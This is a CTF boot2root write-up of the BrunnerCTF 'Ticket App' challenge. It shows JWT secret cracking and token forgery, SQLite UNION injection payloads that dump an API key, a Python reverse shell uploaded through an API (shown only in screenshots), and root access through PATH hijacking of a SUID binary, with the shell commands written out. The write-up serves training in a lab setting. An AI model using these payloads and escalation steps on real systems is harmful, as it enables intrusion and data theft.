 # Ticket-APP-Boot2Root-Walkthrough-BrunnerCTF-

In this writeup, we’ll go through solving the **Ticket App** Boot2Root challenge from **BrunnerCTF**.  
The target is a web application, and we’ll exploit it step-by-step to gain user and root access.
![Image](images/Pasted%20image%2020250825085948.png)

## Enumeration
After accessing the website, I noticed two options: **Register** and **Login**.  
I created a new account and logged in successfully.
![Image](images/Pasted%20image%2020250825090317.png)


![Image](images/Pasted%20image%2020250825090343.png)

Once logged in, the dashboard displayed field Admin: False **(This strongly hinted at the use of a JWT (JSON Web Token) for authentication.)**

![Image](images/Pasted%20image%2020250825090404.png)

## Exploiting JWT Authentication
I took the token copy and go to [token.dev](https://token.dev/)
![Image](images/Pasted%20image%2020250825090442.png)

The token was **HS256-signed**. If the signing secret can be guessed or cracked, we can forge our own token.
![Image](images/Pasted%20image%2020250825090505.png)


I found that If I knew the secret I cand edit this token and make the admin true
I crafted this python script to brute force the secret. After a successful crack, It will modify admin from false to true
![Image](images/Pasted%20image%2020250825090849.png)

github jwt cracker tool link
after running the script I get a new token of admin priv.
![Image](images/Pasted%20image%2020250825090948.png)


After replacing my old token, the application recognized me as **Admin**. A new input field appeared on the interface.

![Image](images/Pasted%20image%2020250825091026.png)

## SQL Injection

I tried to search through this input

![Image](images/Pasted%20image%2020250825091059.png)
The new input box allowed queries, so I tested it with a single quote (`'`) → classic SQL injection behavior appeared.
![Image](images/Pasted%20image%2020250825091136.png)
![Image](images/Pasted%20image%2020250825092238.png)
Next, I fingerprinted the backend database:
- MySQL payload → failed
    
- SQL Server payload → failed
    
- SQLite payload → succeeded ✅

MySQL:

![Image](images/Pasted%20image%2020250825093046.png)
SQL Server:

![Image](images/Pasted%20image%2020250825093124.png)
SQLite:

![Image](images/Pasted%20image%2020250825093143.png)

## Database Enumeration
I tried this payload to get all tables name and I found a table called settings which is tempting

```sql
UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table'--
```

![Image](images/Pasted%20image%2020250825093220.png)
so I decided to get all table columns I found a column called key
![Image](images/Pasted%20image%2020250825093331.png)

```sql
' UNION SELECT 1, name, 3, 4 FROM pragma_table_info('settings')--
```

So I decided to select data in this table 
![Image](images/Pasted%20image%2020250825093412.png)

```sql
' UNION SELECT 1, key, value, 4 FROM settings--
```
and I found a API key 
![Image](images/Pasted%20image%2020250825093549.png)
I decided to open robots .txt to see if there is any directories we can use it and luckily I found /api/docs so I go to this directory

![Image](images/Pasted%20image%2020250825091619.png)
We found it is swagger API Documentation which is very useful to us there is a PUT API endpoint
![Image](images/Pasted%20image%2020250825091657.png)
First I authorize using my Token
![Image](images/Pasted%20image%2020250825091742.png)

![Image](images/Pasted%20image%2020250825093638.png)
in /api/module we see that we can upload file and the uploaded file will run in python so I decided to upload a python reverse shell 
![Image](images/Pasted%20image%2020250825093656.png)
First I open a listener
![Image](images/Pasted%20image%2020250825093749.png)
then a tunnel to make the listener public
![Image](images/Pasted%20image%2020250825093834.png)
I uploaded the reverse shell
![Image](images/Pasted%20image%2020250825094041.png)
after uploading it it doesn't run through swagger so I decided to use curl
![Image](images/Pasted%20image%2020250825094215.png)
I used curl to make some changes in request
## Initial Foothold (RCE)
![Image](images/Pasted%20image%2020250825094427.png)
and boom we have a shell

![Image](images/Pasted%20image%2020250825094442.png)
![Image](images/Pasted%20image%2020250825094523.png)
# Privilege Escalation
## Enumeration
I search for the SUID Binaries and I found a custom binary called syslog-manager
which I will use it to make privesc
![Image](images/Pasted%20image%2020250825094604.png)
FIrst I used -h to know the usage of this binary

![Image](images/Pasted%20image%2020250825094624.png)
I run strings to know all strings in the binary
```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/$ strings /usr/bin/syslog-manager            
/lib64/ld-linux-x86-64.so.2
snprintf
__isoc23_strtoull
perror
free
fread
stat
setuid
fopen
system
localtime_r
strlen
strstr
stdout
getline
strftime
__libc_start_main
stderr
fprintf
__cxa_finalize
ftell
fclose
fwrite
strcmp
fseek
libc.so.6
GLIBC_2.33
GLIBC_2.38
GLIBC_2.34
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
PTE1
u+UH
Usage:
  %s read   [max_bytes]
  %s tail   [lines]
  %s append <text>
  %s search <needle>
  %s clean
  %s stats
/var/log/syslog.log
open
fseek
ftell
cleaner %s 2>/dev/null
Command too long
Error: cleaning failed
stat
%Y-%m-%d %H:%M:%S %z
path : %s
size : %lld bytes
lines: %zu
mtime: %s
path : %s
size : %lld bytes
lines: %zu
mtime: %ld
read
tail
append
search
clean
stats
```
From strings we see
`cleaner %s 2>/dev/null`
this means that it runs a file called cleaner when we add the option `clean`

```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean              
Error: cleaning failed
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ cleaner
bash: cleaner: command not found
```

---
## Exploit
as we don't found the cleaner file so I decided to make this file 
and make it executable but before that I need to edit the Path of executable in our machine
so I run this command 
`ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ export PATH=/tmp:$PATH`
this command add the /tmp to the PATH
so I can run any thing inside it without provide it's directory 
then I make a clear file called cleaner to test if the clean option will be run or not
and change it's permission to 777 and the `/usr/bin/syslog-manager clean` doesn't print to us
`Error: cleaning failed`
so I add the bash header to the fil and make it run bash env
after this I was root
```bash
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ export PATH=/tmp:$PATH
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '' > cleaner 
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ chmod 777 ./cleaner
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean              
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '#!/bin/bash' > cleaner                 
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ echo '/bin/bash -p' >> cleaner
ctfplayer@ctf-tickets-app-user-28dde2077d78fecf-57fdf98dbf-dnsk8:/tmp$ /usr/bin/syslog-manager clean                 
id
uid=0(root) gid=1000(ctfplayer) groups=1000(ctfplayer)          
```   

---
# Conclusion

This Boot2Root challenge followed a classic **Web → RCE → PrivEsc** flow:

1. Weak **JWT secret** allowed token forgery and privilege escalation to Admin.
    
2. SQL Injection exposed **API keys**.
    
3. Swagger API enabled **Python RCE** through file upload.
    
4. A custom **SUID binary** (`syslog-manager`) with unsafe `system()` call led to **root privilege escalation** via PATH hijacking.
    

🎯 **Flags captured, root access achieved.**
